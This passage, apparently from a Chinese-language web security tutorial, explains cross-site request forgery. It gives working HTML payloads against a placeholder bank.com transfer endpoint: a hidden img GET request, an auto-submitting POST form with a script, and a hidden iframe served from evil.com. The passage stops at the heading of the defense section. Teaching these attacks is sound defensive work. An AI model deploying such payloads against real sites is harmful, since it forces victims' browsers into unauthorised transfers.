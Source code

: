 -----

## 三、 攻击代码实现

攻击者有多种方式在恶意页面中嵌入伪造的请求，即使用户不可见。

#### 1\. 利用 `<img>` 标签 (GET 请求)

这是最简单的方式，攻击者将请求伪装成一个图片链接。浏览器在解析 `<img>` 的 `src` 属性时会自动发起 GET 请求。

```html
<h1>男人看了沉默，女人看了流泪...</h1>

<img src="https://bank.com/transfer?to=Hacker&amount=100000" style="display:none;">
```

#### 2\. 利用自动提交的表单 (POST 请求)

如果服务器的关键操作（如转账）只接受 POST 请求，攻击者可以创建一个自动提交的表单。

```html
<form id="csrf-form" action="https://bank.com/transfer" method="POST">
    <input type="hidden" name="to" value="Hacker" />
    <input type="hidden" name="money" value="1000000" />
</form>

<script>
    // 页面加载后立即自动提交表单
    document.getElementById('csrf-form').submit();
</script>
```

为了让用户无感知，攻击者可以将这个表单放在一个隐藏的 `<iframe>` 中加载。

**主页面 (`evil.com/index.html`):**

```html
<iframe src="evil.com/attack.html" style="display:none;"></iframe>
```

**Iframe 页面 (`evil.com/attack.html`):**

```html
<form action="https://bank.com/transfer" method="POST">
    <input type="hidden" name="to" value="Hacker" />
    <input type="hidden" name="money" value="1000000" />
</form>
<script>
    document.forms[0].submit();
</script>
```

-----

## 四、 防御策略
